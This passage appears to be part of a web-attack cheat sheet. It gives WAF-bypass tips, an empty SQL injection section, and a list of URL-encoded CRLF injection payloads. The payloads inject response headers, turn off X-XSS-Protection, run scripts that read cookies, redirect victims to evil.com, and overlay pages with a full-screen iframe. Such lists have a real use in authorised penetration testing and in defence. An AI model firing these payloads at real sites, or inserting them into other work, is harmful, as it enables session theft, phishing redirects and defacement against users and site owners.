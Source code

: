 **Tips:**
- Test payloads against specific WAF versions.
- Mix encodings and event handlers.
- Verify in context of target.
- Document successful bypasses.

---

## SQL Injection Methodology

(Commands and payloads for SQLi testing — consolidated as in user-provided dataset.)

---

## CRLF Injection

### Payloads

#### Basic injection payload to test for CRLF vulnerabilities (extra headers/HTML)
```bash
%0d%0a%0d%0a%3Ch1%3ECoffinxp%3C%2Fh1%3E%0A%3Cp%3ECRLF%20Injection%20PoC%3C%2Fh1%3E
```

#### Bypass headers like X-XSS-Protection and inject scripts
```bash
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.cookie%29%3C/script%3E
```

#### Redirect victim via injected response
```bash
%0d%0a%0d%0a%3Cscript%3Edocument.location.href%3D%22https%3A%2F%2Fevil.com%22%3C%2Fscript%3E
```

#### Script execution in SVG with crafted Content-Length
```bash
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a%0d%0a/%2f%2e%2e
```

#### Image onerror prompt
```bash
%0d%0a%0d%0a%3Cimg%20src%3Dx%20onerror%3Dprompt%281%29%3E
```

#### Full-screen iframe overlay
```bash
%0d%0a%0d%0a%3Ciframe%20src%3D%22https%3A%2F%2Fwww.nasa.gov%2F%22%20style%3D%22border%3A%200%3B%20position%3Afixed%3B%20top%3A0%3B%20left%3A0%3B%20right%3A0%3B%20bottom%3A0%3B%20width%3A100%25%3B%20height%3A100%25%22%3E%0A
```
